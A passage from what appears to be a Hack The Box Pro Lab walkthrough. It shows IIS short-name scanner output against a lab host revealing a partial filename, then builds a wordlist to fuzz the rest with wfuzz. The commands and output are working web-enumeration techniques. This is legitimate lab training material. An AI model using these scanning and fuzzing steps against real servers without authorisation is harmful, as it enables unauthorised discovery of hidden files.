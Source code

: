 ```bash
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.* [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.t*        [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.tx*       [scan in progress]
[+] /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*      [scan in progress]
[+] File /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt* [Done]
----------------------------------------------------------------
File: /dev/dca66d38fd916317687e1390a420c3fc/db/poo_co~1.txt*
----------------------------------------------------------------
0 Directories, 1 Files found in total
Note that * is a wildcard, matches any character zero or more times.
                                                                                 
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O/web enum/IIS_shortname_Scanner]
└─$ python3 iis_shortname_scan.py  http://10.13.38.11/dev/304c0c90fbc6520610abbf378e2339d1/db
Server is vulnerable, please wait, scanning...
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/p~1.*      [scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/po~1.*     [scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo~1.*    [scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_~1.*   [scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_c~1.*  [scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.* [scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.t*        [scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.tx*       [scan in progress]
[+] /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.txt*      [scan in progress]
[+] File /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.txt* [Done]
----------------------------------------------------------------
File: /dev/304c0c90fbc6520610abbf378e2339d1/db/poo_co~1.txt*
----------------------------------------------------------------
0 Directories, 1 Files found in total
Note that * is a wildcard, matches any character zero or more times.
                                                                      
```

## File fuzzing

I’m aware of a `.txt` file in `/dev/304c0c90fbc6520610abbf378e2339d1/db/` that begins with `poo_co`. At this point, I can use `wfuzz` to try and discover the rest of the filename. To narrow down the search, I’ll extract words starting with 'co' from `raft-large-words-lowercase.txt`, which generates a relatively compact wordlist to work with:

```bash
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O/web enum/IIS_shortname_Scanner]
└─$ grep "^co" /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-words-lowercase.txt > co_fuzzing.txt 
                                                                                 
┌──(n00b㉿v1c70r)-[~/HTB Prolabs/P.O.O/web enum/IIS_shortname_Scanner]
└─$ wc -l co_fuzzing.txt
2351 co_fuzzing.txt

```

lets try and fuzz now.
